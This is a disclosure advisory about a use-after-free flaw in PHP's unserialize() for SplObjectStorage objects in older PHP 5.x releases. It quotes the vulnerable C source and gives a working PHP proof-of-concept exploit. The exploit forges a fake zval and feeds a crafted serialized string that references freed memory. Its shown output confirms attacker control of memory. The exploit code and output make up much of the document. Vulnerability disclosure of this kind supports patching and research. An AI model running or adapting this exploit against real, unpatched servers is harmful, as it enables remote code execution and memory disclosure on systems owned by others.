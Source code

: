 #Use After Free Vulnerability in unserialize() with SplObjectStorage
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.7.30 - Release Date: 2015.8.7
 
> A use-after-free vulnerability was discovered in unserialize() with SplObjectStorage object's deserialization that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.12  
Affected is PHP 5.5 < 5.5.28  
Affected is PHP 5.4 < 5.4.44

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

```
	if (*p!= 'x' || *++p != ':') {
		goto outexcept;
	}
	++p;

	ALLOC_INIT_ZVAL(pcount);
	if (!php_var_unserialize(&pcount, &p, s + buf_len, &var_hash TSRMLS_CC) || Z_TYPE_P(pcount) != IS_LONG) {
		goto outexcept;
	}

	...

	/* members */
	if (*p!= 'm' || *++p != ':') {
		goto outexcept;
	}
	++p;

	ALLOC_INIT_ZVAL(pmembers);
	if (!php_var_unserialize(&pmembers, &p, s + buf_len, &var_hash TSRMLS_CC) || Z_TYPE_P(pmembers) != IS_ARRAY) {
		zval_ptr_dtor(&pmembers);
		goto outexcept;
	}

	/* copy members */
	if (!intern->std.properties) {
		rebuild_object_properties(&intern->std);
	}
	zend_hash_copy(intern->std.properties, Z_ARRVAL_P(pmembers), (copy_ctor_func_t) zval_add_ref, (void *) NULL, sizeof(zval *));
	zval_ptr_dtor(&pmembers);  <===  free memory

	/* done reading $serialized */
	if (pcount) {
		zval_ptr_dtor(&pcount);  <===  free memory
	}
	PHP_VAR_UNSERIALIZE_DESTROY(var_hash);
	return;
```

The zval_ptr_dtor() leads to &pcount and &pmembers are freed from memory. However the unserialize() will still allow to use R: or r: to set references to that already freed memory. It is possible to use-after-free attack and execute arbitrary code remotely.

Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.11 installation of PHP 5.4.43.

```
<?php

$fakezval = ptr2str(1122334455);
$fakezval .= ptr2str(0);
$fakezval .= "\x00\x00\x00\x00";
$fakezval .= "\x01";
$fakezval .= "\x00";
$fakezval .= "\x00\x00";

$inner = 'x:i:0;m:a:0:{}';
$exploit = 'a:2:{i:0;C:16:"SplObjectStorage":'.strlen($inner).':{'.$inner.'}i:1;R:3;}';

$data = unserialize($exploit);

for ($i = 0; $i < 5; $i++) {
    $v[$i] = $fakezval.$i;
}

var_dump($data);

function ptr2str($ptr)
{
	$out = "";
	for ($i = 0; $i < 8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line:

```
$ php uafpoc.php
array(2) {
  [0]=>
  object(SplObjectStorage)#1 (1) {
    ["storage":"SplObjectStorage":private]=>
    array(0) {
    }
  }
  [1]=>
  int(1122334455)  <===  so we can control the memory and create fake ZVAL :)
}
```
